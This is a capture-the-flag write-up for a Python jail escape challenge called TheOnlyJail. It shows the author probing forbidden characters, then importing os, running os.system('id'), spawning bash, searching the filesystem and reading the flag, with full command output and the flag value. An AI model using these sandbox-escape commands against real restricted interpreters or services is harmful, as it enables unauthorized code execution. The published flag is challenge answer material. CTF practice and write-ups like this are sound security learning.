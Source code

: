 # TheOnlyJail

## Overview

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Incognito-4.0/images/Pasted%20image%2020230218142849.png)

## Escape the jail

**In this challenge, we can connect to a docker instance:**
```shell
┌[siunam♥earth]-(~/ctf/Incognito-4.0/massive)-[2023.02.18|14:29:16(HKT)]
└> nc -nv 139.177.202.200 3333
(UNKNOWN) [139.177.202.200] 3333 (?) open
Welcome to the IIITL Jail! Escape if you can
jail> 
```

In a typical CTF pyjail challenge, we need to escape the restricted environment.

**First off, enumerate which characters are allowed:**
```shell
jail> !
Error: Error: forbidden character '!'
jail> @
Error: Error: forbidden character '@'
jail> #
Error: Error: forbidden character '#'
jail> $
Error: Error: forbidden character '$'
jail> %
Error: Error: forbidden character '%'
jail> ^
Error: Error: forbidden character '^'
jail> 
```

As you can see, many characters are forbidden.

**However, some characters are allowed:**
```shell
*()='":.,
```

**Hmm... If `'()` are allowed, can we import some Python libraries?**
```shell
jail> import os
jail> os.system('id') 
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
```

Oh!! We can! Most importantly, we can execute OS commands!!

**Let's try to spawn a shell!**
```shell
jail> os.system('bash')
whoami;hostname;id
ctf
32d84834a037
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
ls -lah
total 72K
drwxr-xr-x   1 root root 4.0K Feb 18 05:03 .
drwxr-xr-x   1 root root 4.0K Feb 18 05:03 ..
-rwxr-xr-x   1 root root    0 Feb 18 05:03 .dockerenv
lrwxrwxrwx   1 root root    7 Jan 26 02:03 bin -> usr/bin
drwxr-xr-x   2 root root 4.0K Apr 18  2022 boot
drwxr-xr-x   5 root root  340 Feb 18 05:03 dev
drwxr-xr-x   1 root root 4.0K Feb 18 05:03 etc
drwxr-xr-x   1 root root 4.0K Feb 18 05:00 home
lrwxrwxrwx   1 root root    7 Jan 26 02:03 lib -> usr/lib
lrwxrwxrwx   1 root root    9 Jan 26 02:03 lib32 -> usr/lib32
lrwxrwxrwx   1 root root    9 Jan 26 02:03 lib64 -> usr/lib64
lrwxrwxrwx   1 root root   10 Jan 26 02:03 libx32 -> usr/libx32
drwxr-xr-x   2 root root 4.0K Jan 26 02:03 media
drwxr-xr-x   2 root root 4.0K Jan 26 02:03 mnt
drwxr-xr-x   2 root root 4.0K Jan 26 02:03 opt
dr-xr-xr-x 214 root root    0 Feb 18 05:03 proc
drwx------   2 root root 4.0K Jan 26 02:06 root
drwxr-xr-x   1 root root 4.0K Feb 18 05:03 run
lrwxrwxrwx   1 root root    8 Jan 26 02:03 sbin -> usr/sbin
drwxr-xr-x   2 root root 4.0K Jan 26 02:03 srv
-rwxr-xr-x   1 root root   53 Feb 18 04:56 start.sh
dr-xr-xr-x  13 root root    0 Feb 18 05:03 sys
drwxrwxrwt   1 root root 4.0K Feb 18 04:59 tmp
drwxr-xr-x   1 root root 4.0K Jan 26 02:03 usr
drwxr-xr-x   1 root root 4.0K Jan 26 02:06 var
```

Nice! We successfully break out the pyjail!

**Let's use `find` to find the flag location:**
```shell
find / -name "*flag*" 2>/dev/null
/home/ctf/flag.txt
[...]
```

**Found it!**
```shell
cat /home/ctf/flag.txt
ictf{ff8ab219-a90b-44f8-9273-ccc13766f2eb}
```

- **Flag: `ictf{ff8ab219-a90b-44f8-9273-ccc13766f2eb}`**

# Conclusion

What we've learned:

1. Python Jailbreak Via Importing OS Library